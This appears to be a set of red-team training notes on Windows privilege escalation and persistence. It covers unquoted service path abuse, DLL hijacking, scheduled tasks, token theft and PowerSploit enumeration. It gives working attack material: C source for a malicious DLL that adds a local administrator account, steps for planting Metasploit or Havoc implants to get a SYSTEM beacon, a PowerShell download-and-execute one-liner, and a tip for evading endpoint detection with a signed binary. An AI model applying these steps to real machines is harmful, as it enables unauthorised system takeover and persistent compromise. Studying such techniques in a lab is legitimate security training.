

# Privilege Escalation / Persistence

In order to escalate privilege from a regular user to a higher level account (Administrator/System Authority), you need either a `misconfiguration` (typically permission issues on services, scheduled tasks etc...) or an `exploit` (Remote/Rogue/Sweet/Rotten/Juicy/God Potato etc..) - a properly patched and configured system will provide challenges to escalte privileges from a standard user to a administrator user. 

That being said, there are numerous techniques to obtain hashes/passwords, that don't requite administrator privileges - such as `kerberoasting`, `ntlm relaying` and `password spraying`.

Running as a regular unprivileged user:


Runnins as an administrator:


# What is SeDebugPrivilege?

SeDebugPrivilege is a special privilege in Windows that allows a user or process to debug other processes, even those running under different security contexts or with higher privileges, such as system services. This privilege is part of Windows' security model, which uses privileges to control what actions a user or process can perform on the system.

## Key Points About SeDebugPrivilege

### Purpose:
- By default, users can only debug processes they own (i.e., processes they started or are running under their user account).
- SeDebugPrivilege extends this capability, allowing a process or user with this privilege to:
  - Attach a debugger to,
  - Inspect, or
  - Modify any process on the system, including those running as other users or as the SYSTEM account (a highly privileged account in Windows).

### How It Works:
- The privilege is managed through Windows security policies and can be assigned or revoked by an administrator.
- It is typically enabled for members of the Administrators group by default on many Windows systems, but this can be changed via Group Policy Objects (GPOs) or local security policies.
- To use SeDebugPrivilege, a process must explicitly request it using Windows API functions like `LookupPrivilegeValue` and `AdjustTokenPrivileges`. This involves:
  - Obtaining a handle to the process token.
  - Enabling the privilege.

> **Default Settings**: On many Windows versions (e.g., Windows 10), it’s assigned to the `Administrators group by default`, which can be risky if not properly managed. Even with SeDebugPrivilege, some actions (like injecting into a SYSTEM process) may still fail if other security mechanisms, such as ***User Account Control (UAC)*** or additional restrictions, are in place.
> 
> **Note**: Administrators can control SeDebugPrivilege through the Local Security Policy editor (secpol.msc) or Group Policy Management Editor. It is listed under "User Rights Assignment" as "Debug programs". To enable or disable it, an administrator can modify the security policy to add or remove user groups (e.g., Administrators) from having this privilege.

Escalating from unprivileged user to ***SYSTEM*** in 3 steps:



# UNQUOTED SERVICE PATH

- AlwaysInstallElevated (MSI)
  
- Unquoted Service Path (Services)
  - Requires missing "quotes"
  - and whitespaces in the path
  - write permission in the (sub)folder that holds the service binary

To exploit, the exe needs to be named after the directory it's in, i.e:

---  

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services

- Create folders "C:\MyPrograms\Vulnerable Service\service.exe
- create pingservice in vs2019

-> C:\MyPrograms\`vulnerable.exe`  arguments `Service\service.exe`

By placing a malicious service exe in c:\MyPrograms\ named `vulnerable.exe`, we'll escalate privileges wo NT SYSTEM AUHTORITY (if the service is running with those privileges)

```powershell
sc create VulnService binPath= "C:\MyPrograms\Vulnerable Service\VulnService.exe"
sc qc VulnService
sc start VulnService
```

Then drop metasploit payload (renamed to Vulnerable.exe) in C:\MyPrograms.

  https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/UnquotedServicePath.md

---

Run the following tools as a regular unprivileged user (`runas /user:student powershell.exe`)

> - [+] SharpUp/Powerup
> - [+] WinPeas

### WINPEAS

Runas student (unprivileged)

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```


Use the Havoc session to upload a havoc.exe renamed to `vulnerable.exe` to the `C:\MyPrograms\Vulnerable Service\` path, and then start the VulnService, using the havoc `shell` command.

upload /opt/havoc/demonsvc.x64.exe c:\MyPrograms\Vulnerable.exe

```powershell
sc.exe start VulnService
```

> Please note that regular users can't restart services, but after a reboot this will automatically execute.

You'll now have a 2nd beacon with `NT AUHORITY\SYSTEM` privileges.


> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `code-execution` and `persistence`!!!

# DLL Hijack/Sideloading
<https://www.bordergate.co.uk/windows-privilege-escalation/#DLL-Hijacking>
The following code can be used to create a malicious DLL:

Bring your own vulnerable signed MS binary:

OLEVIEW

Why? EDR's will check if dll's loaded by LOL windows binaries happen from the right directory - by dropping a signed binary that is not present on the file system, we evding that detection.

Additionally OLEVIEW will

```csharp
#include <windows.h>
 
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net user localadmin Password1 /add");
        system("cmd.exe /k net localgroup administrators localadmin /add");
        ExitProcess(0);
    }
    return TRUE;
}
```
Compile with:

```code
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijack.dll
```

# DLL Hijacking
onedrive -> Appdata -> cscapi.dll

https://juggernaut-sec.com/dll-hijacking/#Hijacking_the_Service_DLL_to_get_a_SYSTEM_Shell


# SCHEDULED TASKS

```powershell
schtasks /create /tn VulnTask /tr 'c:\MyPrograms\VulnerableTask\VulnTask.exe' /sc ONSTART /RL HIGHEST /RU "Student_adm" /RP "Threathunt25" /F
```

### STEALING TOKENS
```
TokenPlayer-v0.8.exe --impersonate --pid 4536 --spawn
```

needs sedebugprivilege!
Admin in high integrity (UAC Bypass)

----
accesschk.exe -p -f -v 3356
---
https://github.com/fashionproof/EnableAllTokenPrivs/blob/master/EnableAllTokenPrivs.ps1

POWERSPLOIT

```powershell
git clone https://github.com/PowerShellMafia/PowerSploit.git
cd .\PowerSploit\Privesc\
import-module .\Privesc.psd1
get-command -module Privesc
Get-ProcessTokenPrivilege
```

login as student
powershell
Start-Process -FilePath "powershell.exe" -Verb RunAs